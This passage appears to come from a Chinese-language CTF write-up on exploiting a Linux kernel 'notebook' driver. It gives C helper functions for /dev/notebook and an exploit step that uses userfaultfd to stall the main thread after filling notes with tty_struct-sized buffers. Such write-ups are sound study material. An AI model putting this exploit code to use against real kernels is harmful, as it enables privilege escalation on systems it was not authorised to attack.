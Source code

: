 ```c
}
void noteedit(size_t idx, size_t size, void* buf){
    printf("\033[1;34mResize note #%zu to %zu...\n\033[m", idx, size);
    notearg arg = {idx, size, buf};
    ioctl(fd, EDIT_CODE, &arg);
}
void notewrite(const char* buf, size_t idx){
    printf("\033[1;34mWrite to note #%zu...\n\033[m", idx);
    write(fd, buf, idx);
}
void notebook_msg(){
    size_t noteBuf[0x20] = {0};
    notegift(noteBuf);
    printf("\033[1;36m--------------------------------------------------------------------------------\n");
    printf("Current Notebook Info:\n");
    for(int i=0; i<0x10; i++)
        printf("\tNote #%2d: size = %zu, pointer = %p\n", i, noteBuf[i*2+1], (char*)noteBuf[i*2]);
    printf("--------------------------------------------------------------------------------\n\033[m");
}

int main(){
    fd = open("/dev/notebook", O_RDWR);
}
```

# Step 12: exp编写——使userfaultfd成功阻塞主线程
编译测试的时候别忘了加上-lpthread选项。
```c
int main(){
    saveStatus();
    page_size = sysconf(_SC_PAGESIZE);
    page = (char*)malloc(0x1000);
    memset(page, 'a', 0x1000);
    fd = open("/dev/notebook", O_RDWR);

    char* mmap_space = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    printf("\033[1;34mMmap executed, mmap address: %p\n\033[m", mmap_space);
    registerUserFaultFd(mmap_space, 0x1000, fault_handler_thread);
    printf("\033[1;34mMmap space userfaultfd registered.\n\033[m");

    for(int i=0; i<0x10; i++)
        noteadd(i, TTY_STRUCT_SIZE, page);
    printf("\033[1;34mNotebook filled.\n\033[m");
    notebook_msg();

    noteedit(0, 0x2000, mmap_space);        // trigger page fault
}
```
其中最后一条语句就能够触发缺页异常。
![](https://img-blog.csdnimg.cn/20b28fe578504a59a5f478c8e81a1660.png)
可以看到确实成功了。
